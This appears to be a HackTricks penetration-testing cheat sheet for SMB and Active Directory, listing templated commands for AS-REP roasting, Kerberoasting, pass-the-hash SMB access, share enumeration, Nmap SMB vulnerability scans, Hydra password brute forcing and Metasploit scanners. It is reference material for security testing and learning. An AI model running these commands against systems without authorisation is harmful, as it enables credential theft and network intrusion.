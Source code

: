 ```
    GetNPUsers.py -dc-ip {IP} -request "{Domain_Name}/" -format hashcat
    GetUserSPNs.py -dc-ip {IP} -request "{Domain_Name}/"
    getArch.py -target {IP}

    With Creds
    smbmap -H {IP} -u {Username} -p {Password}
    smbclient "\\\\{IP}\\\" -U {Username} -W {Domain_Name} -l {IP}
    smbclient "\\\\{IP}\\\" -U {Username} -W {Domain_Name} -l {IP} --pw-nt-hash `hash`
    crackmapexec smb {IP} -u {Username} -p {Password} --shares
    GetADUsers.py {Domain_Name}/{Username}:{Password} -all
    GetNPUsers.py {Domain_Name}/{Username}:{Password} -request -format hashcat
    GetUserSPNs.py {Domain_Name}/{Username}:{Password} -request

    https://book.hacktricks.xyz/pentesting/pentesting-smb

Entry_2:
  Name: Enum4Linux
  Description: General SMB Scan
  Command: enum4linux -a {IP}

Entry_3:
  Name: Nmap SMB Scan 1
  Description: SMB Vuln Scan With Nmap
  Command: nmap -p 139,445 -vv -Pn --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse {IP}

Entry_4:
  Name: Nmap Smb Scan 2
  Description: SMB Vuln Scan With Nmap (Less Specific)
  Command: nmap --script 'smb-vuln*' -Pn -p 139,445 {IP}

Entry_5:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} {IP} smb

Entry_6:
  Name: SMB/SMB2 139/445 consolesless mfs enumeration
  Description: SMB/SMB2 139/445  enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/smb/smb_version; set RHOSTS {IP}; set RPORT 139; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb2; set RHOSTS {IP}; set RPORT 139; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb_version; set RHOSTS {IP}; set RPORT 445; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb2; set RHOSTS {IP}; set RPORT 445; run; exit'

```

{{#include ../../banners/hacktricks-training.md}}

